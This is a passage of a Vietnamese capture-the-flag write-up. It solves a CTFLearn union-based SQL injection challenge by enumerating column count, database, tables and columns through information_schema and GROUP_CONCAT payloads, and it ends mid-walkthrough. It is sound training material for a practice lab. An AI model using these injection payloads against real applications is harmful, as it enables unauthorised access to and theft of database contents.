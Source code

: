 Đây là một thử thách về Union Based SQLI ở CTFLearn, truy cập vào https://web.ctflearn.com/web8 thì mình thấy có parameters "id" được truyền qua phương thức GET. Đây có thể là nơi để exploit.

## Xác định số cột trong database

Khi mình truyền tham số 1 vào parameters id thì có 3 phần đó là

```
Name: Saranac
Breed: Great Dane
Color: Black
```

Sử dụng một truy vấn UNION cơ bản

```
1 union select 1,2,3,4-- 
```
Ta xác định dược rằng có 4 columns ở đây
## Tìm tên database và tables name bằng GROUP_CONCAT function
Có thể tham khảo cheatsheet ở https://gist.github.com/nani1337/02c65b06d0dbcf3b9a684f5caf78ad15#file-0x01-basic-sqlinjection-cheat-sheet-L86

```
-1 UNION SELECT 1,2,database(),4 from information_schema.tables--
```
Ở đây ta có thể thấy database tên là **webeight**
![](https://raw.githubusercontent.com/K3v1ne/ctf-wu/main/Inj3ction-Time/Capture.PNG)

Có database name rồi bây giờ ta sẽ trích xuất tables trong database

**-1 union all select null,null,GROUP_CONCAT(table_name SEPARATOR 0x3c62723e),null from information_schema.tables WHERE TABLE_SCHEMA=DATABASE()**

Kết quả:

```
Name:
Breed:
Color: w0w_y0u_f0und_m3
webeight
```
## Trích xuất columns
Trích xuất tables rồi đến trích xuất columns, vẫn sử dụng function group_concat():

**-1 union all select null,null,GROUP_CONCAT(column_name SEPARATOR 0x3c62723e),null from information_schema.columns WHERE TABLE_NAME=0x7730775f7930755f6630756e645f6d33--**

**0x7730775f7930755f6630756e645f6d33 thực chất là dạng hex của string "w0w_y0u_f0und_m3"**
